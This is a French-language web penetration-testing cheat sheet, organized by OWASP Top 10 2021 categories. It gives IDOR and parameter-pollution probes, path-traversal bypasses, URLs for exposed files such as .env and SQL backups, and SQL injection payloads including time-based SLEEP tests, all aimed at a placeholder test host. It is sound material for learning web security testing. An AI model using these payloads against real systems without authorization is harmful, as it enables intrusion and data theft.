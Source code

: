 #### **Techniques d'exploitation**

**IDOR (Insecure Direct Object Reference)**
```bash
# URL normale d'un utilisateur
http://app-test.exemple.local/profile.php?user_id=1234

# Test IDOR - changer l'ID
http://app-test.exemple.local/profile.php?user_id=1235
http://app-test.exemple.local/profile.php?user_id=1
http://app-test.exemple.local/profile.php?user_id=9999

# Encodage pour bypass
http://app-test.exemple.local/profile.php?user_id=%31%32%33%34 (URL encode)
http://app-test.exemple.local/profile.php?user_id={"id":1234}  (JSON)
```

**Parameter Pollution**
```bash
# Duplication de paramètres
http://app-test.exemple.local/admin.php?user=guest&user=admin

# Arrays PHP
http://app-test.exemple.local/check.php?role[]=user&role[]=admin

# Techniques de bypass
http://app-test.exemple.local/api/users/1234/../../admin/config
```

### **A02:2021 - Cryptographic Failures**

#### **Stockage non sécurisé**
```bash
# Recherche de fichiers sensibles exposés
http://app-test.exemple.local/backup.sql
http://app-test.exemple.local/config.php.bak
http://app-test.exemple.local/.env
http://app-test.exemple.local/database.sqlite

# Cookies non chiffrés
document.cookie = "user=admin"; // Modifiable côté client

# Transmissions non HTTPS
http://app-test.exemple.local/login.php (mots de passe en clair)
```

### **A03:2021 - Injection**

#### **SQL Injection (SQLi)**

**Détection de base**
```sql
-- Test de base pour erreur SQL
login.php?id=1'
login.php?id=1' OR '1'='1
login.php?id=1' OR '1'='1'--
login.php?id=1' OR '1'='1'/*

-- Time-based detection
login.php?id=1' AND SLEEP(5)--
login.php?id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--
```
